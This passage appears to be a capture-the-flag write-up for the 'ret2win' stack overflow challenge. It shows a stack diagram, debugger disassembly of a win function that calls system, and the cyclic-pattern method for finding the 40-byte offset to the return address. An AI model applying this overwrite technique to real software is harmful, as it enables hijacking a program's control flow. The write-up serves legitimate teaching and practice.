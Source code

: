 ```console
Higher addesses

|--------------------|
|        RSP         |
|--------------------|
|        RBP         | addr of RSP - 0x8
|--------------------|
|     vuln buffer    | addr of RBP - 0x20
|--------------------|

lower addresses

```

Since we can control RSP, we can jump to arbitrary places in memory. If the NX (No eXecute) bit on this binary wasn't set, we might be able to inject shellcode into the process memory, and then jump to it which we could use to spawn a shell and so on. Instead, since the NX bit is set, we will have to make do with functions and so-called gadgets already present in the binary. 

One function of interest is the `ret2win` function:
```console
pwndbg> disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:	push   rbp
   0x0000000000400757 <+1>:	mov    rbp,rsp
   0x000000000040075a <+4>:	mov    edi,0x400926
   0x000000000040075f <+9>:	call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:	mov    edi,0x400943
   0x0000000000400769 <+19>:	call   0x400560 <system@plt>
   0x000000000040076e <+24>:	nop
   0x000000000040076f <+25>:	pop    rbp
   0x0000000000400770 <+26>:	ret
End of assembler dump.
pwndbg> x/x 0x400943
0x400943:	0x6e69622f
pwndbg> x/s 0x400943
0x400943:	"/bin/cat flag.txt"
```
This function calls system and uses it to execute the command `/bin/cat flag.txt`. 

The next step is to figure out how many bytes we need to give the program before we start overwriting the return pointer. One way to do this is to calculate it. We have a buffer of 0x20 bytes before we start overwriting the RBP, which holds 8 bytes, and then we begin to overwrite the rsp. As such, we can write 0x28, or 40 bytes before the program will start to complain and segfault. Another way to figure this out is to write an increasing number of A's until the program crashes. You can also use the `cyclic pattern` feature in pwndbg to find the offset needed.

Below is an abridged pwndbg interaction detialing how to use the `cyclic pattern` feature. 
```console
pwndbg> cyclic 128
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaa
pwndbg> ni <---- run the read() syscall
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaa <----- Give input to program

*RSP  0x7fffffffdd28 ◂— 0x6161616161616166 ('faaaaaaa') <---- at the ret instruction, pwndbg tells us that the value stored in RSP is 0x6161616161616166

pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```
